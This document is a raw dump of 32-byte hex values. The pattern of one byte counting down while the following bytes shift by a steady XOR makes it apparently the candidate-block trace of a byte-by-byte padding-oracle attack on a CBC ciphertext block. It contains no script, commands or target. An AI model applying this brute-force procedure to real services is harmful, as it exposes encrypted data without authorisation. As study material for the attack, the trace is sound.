00000000000000000000000072d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000071d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000070d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000006ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000069d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000068d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000067d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000066d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000065d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000064d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000063d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000062d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000061d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000060d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000005ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000059d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000058d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000057d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000056d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000055d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000054d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000053d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000052d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000051d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000050d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000004ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000049d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000048d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000047d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000046d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000045d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000044d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000043d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000042d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000041d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000040d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003fd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003ed0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003dd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003cd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003bd0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000003ad0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000039d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000038d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000037d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000036d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000035d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000034d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000033d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000000032d0b8b354f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ff33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000fe33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000fd33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000fc33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000fb33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000fa33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000f033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ef33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ee33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ed33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ec33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000eb33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ea33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000e033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000df33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000de33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000dd33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000dc33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000db33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000da33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000d033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000cf33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ce33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000cd33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000cc33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000cb33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ca33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000c033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000bf33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000be33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000bd33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000bc33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000bb33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ba33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000b033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000af33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ae33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ad33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ac33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000ab33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000aa33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000000000000a033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009f33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009e33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009d33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009c33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009b33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009a33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000009033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008f33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008e33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008d33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008c33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008b33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008a33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008633d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008533d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008433d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008333d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008233d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008133d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000008033d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007f33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007e33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007d33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007c33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007b33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007a33d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007933d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007833d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000007733d1b9b254f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ff7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000fe7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000fd7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000fc7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000fb7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000fa7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000f07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ef7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ee7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ed7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ec7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000eb7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ea7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000e07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000df7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000de7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000dd7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000dc7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000db7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000da7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000d07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000cf7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ce7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000cd7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000cc7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000cb7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ca7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000c07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000bf7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000be7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000bd7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000bc7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000bb7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ba7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000b07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000af7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ae7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ad7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ac7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000ab7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000aa7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a97430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a87430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a77430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a67430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a57430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a47430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a37430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a27430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a17430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000a07430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009e7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009d7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009c7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009b7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000009a7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000997430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000987430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000977430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000967430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000957430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000947430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000937430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000927430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000917430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000907430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008e7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008d7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008c7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008b7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000008a7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000897430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000887430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000877430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000867430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000857430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000847430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000837430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000827430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000817430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000807430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007e7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007d7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007c7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007b7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000007a7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000797430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000787430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000777430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000767430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000757430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000747430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000737430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000727430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000717430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000707430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006e7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006d7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006c7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006b7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000006a7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000697430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000687430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000677430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000667430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000657430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000647430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000637430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000627430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000617430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000607430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005f7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005e7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005d7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005c7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005b7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000005a7430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000597430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000587430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000000000577430d2bab154f5b5f8b5bf079cb364e3b6ec0cf813
